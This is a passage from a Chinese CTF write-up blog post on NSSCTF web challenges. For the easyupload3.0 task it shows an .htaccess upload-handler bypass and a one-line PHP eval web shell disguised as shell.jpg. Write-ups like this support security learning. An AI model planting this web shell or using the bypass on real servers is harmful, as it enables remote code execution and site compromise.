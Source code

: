 ```yaml
---
title: NSSCTF-web方向第三页题解
published: 2025-08-05
description: "NSSCTF-web"
image: "./cover-3.jpg"
tags: ["CTF"]
category: NSSCTF
draft: false
---
```


# [SWPUCTF 2021 新生赛]easyupload3.0

![image-20250804095857998](./NSSCTF-3.assets/image-20250804095857998.png)

对php有过滤，我们尝试**htaccess文件上传解析漏洞**

先上传一个.htaccess文件，内容为**SetHandler application/x-httpd-php**

再上传我的shell.jpg,内容为

```
<?php @eval($_POST['shell']);?>
```
